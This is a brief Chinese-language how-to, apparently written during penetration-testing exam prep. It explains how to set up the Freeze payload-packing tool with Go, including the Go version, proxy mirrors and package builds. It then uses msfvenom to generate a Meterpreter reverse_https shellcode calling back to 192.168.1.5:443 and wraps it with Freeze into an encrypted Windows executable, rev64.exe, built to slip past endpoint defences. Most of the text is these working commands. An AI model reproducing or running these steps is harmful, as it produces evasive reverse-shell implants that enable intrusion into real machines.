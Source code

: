 # 工具地址

```
https://github.com/optiv/Freeze
```


# 注意

1. go版本最好是1.19.x，不然会有坑

```
┌──(root㉿kali)-[~/osep/Freeze]
└─# go version                       
go version go1.19.8 linux/amd64

```

2. 手动下载几个包

指定go源
```
# 1. 七牛 CDN
go env -w  GOPROXY=https://goproxy.cn,direct

# 2. 阿里云
go env -w GOPROXY=https://mirrors.aliyun.com/goproxy/,direct

# 3. 官方
go env -w  GOPROXY=https://goproxy.io,direct

```

缺啥补啥，国内源可能有坑
```
go build golang.org/x/sys/windows
```

3. 生成payload

payload
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.5 LPORT=443 -f raw -o rev64.bin
```

加密
```
./Freeze -I /root/osep/rev64.bin -O rev64.exe -encrypt 
```

同文件夹生成一个rev64.exe
```
┌──(root㉿kali)-[/opt/Freeze]
└─# ls
Freeze  Freeze.go  go.mod  go.sum  LICENSE  Loader  README.md  rev64.exe  Screenshots  Struct  Utils

```